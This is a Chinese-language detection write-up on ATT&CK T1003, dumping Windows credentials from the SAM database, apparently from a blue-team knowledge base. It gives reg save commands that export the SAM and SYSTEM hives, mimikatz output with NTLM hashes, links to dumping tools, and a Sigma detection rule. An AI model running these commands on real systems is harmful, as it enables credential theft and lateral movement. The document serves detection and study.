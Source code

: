 # T1003-windows-基于SAM凭证获取

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### SAM（Security Accounts Manager）

SAM文件是一个存储主机本地账户信息的数据库文件，通常是"net user"能看到的用户。想要枚举SAM数据库，你需要系统（system）权限才能够进行操作。它可以在两种模式下工作：在线（使用SYSTEM用户或令牌）或离线（使用SYSTEM＆SAMhives或backup）。

安全帐户管理器（SAM），往往是一个数据库文件在Windows XP中，Windows Vista中、Windows 7中、8.1和10存储用户的密码。它可用于验证本地和远程用户。从Windows 2000 SP4开始，Active Directory对远程用户进行身份验证。SAM使用加密措施来防止未经身份验证的用户访问系统。

用户密码以散列格式存储在注册表配置单元中，可以是LM哈希，也可以是NTLM哈希。可以在此文件中找到%SystemRoot%/system32/config/SAM并安装此文件HKLM/SAM。LM哈希是一种受损的协议，已被NTLM哈希取代。可以将大多数Windows版本配置为在用户更改密码时禁用有效LM哈希的创建和存储。Windows Vista和更高版本的Windows默认禁用LM哈希。

为了提高SAM数据库的安全性以防止脱机离线破解，Microsoft在Windows NT 4.0中引入了SYSKEY功能。启用SYSKEY后，SAM文件的磁盘副本将部分加密，以便SAM中存储的所有本地帐户的密码哈希值都使用密钥加密（通常也称为“SYSKEY”）。可以通过运行程序启用它。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用Reg从注册表中提取SAM文件信息：

- reg save HKLM\SYSTEM SystemBkup.hiv
- reg save HKLM\SAM SamBkup.hiv

然后可以使用Creddump7或者hashcat在本地离线提取哈希值。

你也可以选择直接备份这些文件：

- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SAM

值得注意的是：Rid 500账户是本地内置账户，Rid 501是来宾用户，用户账户以Rid 1000+开头。

## 检测日志

sysmon日志

## 测试复现

### 攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)

```
C:\Users\me\Desktop>reg save hklm\sam sam.hiv
The operation completed successfully.

C:\Users\me\Desktop>reg save hklm\system system.hiv
The operation completed successfully.

mimikatz # lsadump::sam /sam:sam.hiv /system:system.hiv

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003eb (1003)
User : test
  Hash NTLM: a2345375a47a92754e2505132aca194b

RID  : 000003ec (1004)
User : test2
  Hash NTLM: f0873f3268072c7b1150b15670291137
```

## 测试留痕

暂无

## 检测规则/思路

### 攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)

```
title: 本地导出sam、system文件，离线进行hash提取(administrator)
description: windows 7 模拟测试结果
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: sysmon
detection:
​    selection1:
​        EventID: 1
​        Image: 'C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\sam *.hiv'
​    selection2:
​        EventID: 1
​        Image: 'Image: C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\system *.hiv'
​    timeframe: last 2m
​    condition: all of them
level: high
```

## 参考推荐

MITRE-ATT&CK-T1003：https://attack.mitre.org/techniques/T1003/

pwdump7：http://passwords.openwall.net/b/pwdump/pwdump7.zip

powershell：https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1

mimikatz wiki：https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

关于更多通过SAM数据库获取本地用户hash你可以参考：https://www.4hou.com/technology/10878.html



